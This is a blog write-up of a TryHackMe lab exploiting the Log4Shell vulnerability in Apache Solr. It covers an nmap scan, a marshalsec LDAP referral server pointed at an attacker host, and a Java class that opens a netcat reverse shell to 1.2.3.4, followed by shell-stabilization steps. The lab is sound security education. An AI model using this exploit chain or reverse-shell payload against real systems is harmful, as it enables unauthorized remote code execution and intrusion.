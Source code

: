 ```yaml
---
title: 'TryHackMe: Complete Beginner (Supplements) &amp; Exploiting Log4j'
date: 2022-01-02 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-01-02-tryhackme-complete-beginner-supplements-and-exploiting-log4j.html
author: 100007
---
```


# TryHackMe: Complete Beginner (Supplements) & Exploiting Log4j

**author:** Nathan Acks  
**date:** 2022-01-02

Finishing up the supplemental rooms around the TryHackMe: Complete Beginner sequence and then working through a special room covering the recently discovered Log4j vulnerabilities as a fun aside.

- [TryHackMe: Complete Beginner](https://tryhackme.com/path-action/beginner/)
- [TryHackMe: Solar, exploiting log4j](https://tryhackme.com/room/solar)

# TryHackMe: Complete Beginner (Supplements)

## Retro

[See my Retro CTF write-up.](https://cardboard-iguana.com/notes/tryhackme-retro.html)

# Exploiting Log4j

## Reconnaissance

The target has an IP address of 10.10.177.64. We’ll start off with a normal nmap scan, though I’m going to be a bit less aggressive since we’re just looking to enumerate ports/services.

```
sudo nmap -v -oA solar -A -T4 -sS -p- 10.10.177.64
```

This gives us:

```
# Nmap 7.92 scan initiated Sun Jan 2 20:58:25 2022 as: nmap -v -oA solar -A -T4 -sS -p- 10.10.177.64
Nmap scan report for 10.10.177.64
Host is up (0.17s latency).
Not shown: 65532 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 e2:35:e1:4f:4e:87:45:9e:5f:2c:97:e0:da:a9:df:d5 (RSA)
| 256 b2:fd:9b:75:1c:9e:80:19:5d:13:4e:8d:a0:83:7b:f9 (ECDSA)
|_ 256 75:20:0b:43:14:a9:8a:49:1a:d9:29:33:e1:b9:1a:b6 (ED25519)
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
| 100000 2,3,4 111/tcp rpcbind
| 100000 2,3,4 111/udp rpcbind
| 100000 3,4 111/tcp6 rpcbind
|_ 100000 3,4 111/udp6 rpcbind
8983/tcp open http Apache Solr
| http-title: Solr Admin
|_Requested resource was http://10.10.177.64:8983/solr/
|_http-favicon: Unknown favicon MD5: ED7D5C39C69262F4BA95418D4F909B10
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=1/2%OT=22%CT=1%CU=42554%PV=Y%DS=4%DC=T%G=Y%TM=61D276A8
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11
OS:NW7%O6=M506ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(
OS:R=Y%DF=Y%T=40%W=6903%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)
Uptime guess: 44.471 days (since Fri Nov 19 09:49:52 2021)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 199/tcp)
HOP RTT ADDRESS
1 29.11 ms 10.13.0.1
2 ... 3
4 171.20 ms 10.10.177.64
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan 2 21:08:08 2022 -- 1 IP address (1 host up) scanned in 582.99 seconds
```

The service running on port 8983 has an HTML page title of “Solr Admin”, which seems to be part of Apache Solr.

- [Using “nmap”](https://cardboard-iguana.com/notes/nmap.html)
- [Apache Solr](https://solr.apache.org/)

## Proof of Concept

It’s still not 100% clear to me why use of LDAP is required to trigger Log4Shell, but I’m _guessing_ this is used because it’s one of the protocols that JNDI supports. This makes a little more sense given that JNDI stands for the Java Naming and _Directory_ Interface… But it still feels kinda wacky to me that one would store Java objects in… LDAP.

- [Java Naming and Directory Interface (Wikipedia)](https://en.wikipedia.org/wiki/Java_Naming_and_Directory_Interface)

## Exploitation

This section makes the question I wrote above at least a little more clear – LDAP is providing a URL using a more sensible protocol like HTTP that JNDI is then loading the Java code from. So the sequence is malicious request -\> LDAP lookup -\> load Java code over HTTP.

A simple Java LDAP server that will do just this is available at https://github.com/mbechler/marshalsec. It can be built with Apache Maven using the version of OpenJDK supplied with Kali Linux:

```
mvn clean package -DskipTests
```

And run with:

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar \
marshalsec.jndi.LDAPRefServer \
"http://$ATTACKER_IP:$ATTACKER_PORT/#Exploit"
```

Where `$ATTACKER_IP` and `$ATTACKER_PORT` are the IP address and port of an HTTP server that will be used to actually serve up the exploit.

A simple Java exploit that pops a reverse shell (at least on Linux systems with a version of netcat that supports the `-e` switch) is:

```
public class Exploit {
static {
try {
java.lang.Runtime.getRuntime().exec("nc -e /bin/bash 1.2.3.4 9999");
} catch (Exception e) {
e.printStackTrace();
}
}
}
```

Where 1.2.3.4 should match `$ATTACKER_IP` above, and 9999 is the port of the local listener. This can be compiled with:

```
javac Exploit.java -source 8 -target 8
```

Note that the `-source` and `-target` flags may need to be modified depending on which version of Java the target is running. As with all things Java, the file name and file class name need to match.

- [Using “netcat”](https://cardboard-iguana.com/notes/netcat.html)

## Persistence

Generic netcat shell stabilization steps (when running bash at _both_ ends):

- Run `python3 -c "import pty; pty.spawn('/bin/bash')"` on the target.
- Background the reverse shell with Ctrl+Z.
- Run `stty raw -echo` to disable foreground echo (echo will be handled by the target).
- Foreground the reverse shell with `fg` (there won’t be any output).
- Hit Enter a couple of times to get back a prompt, and then `export TERM=xterm`.

That should be good enough.


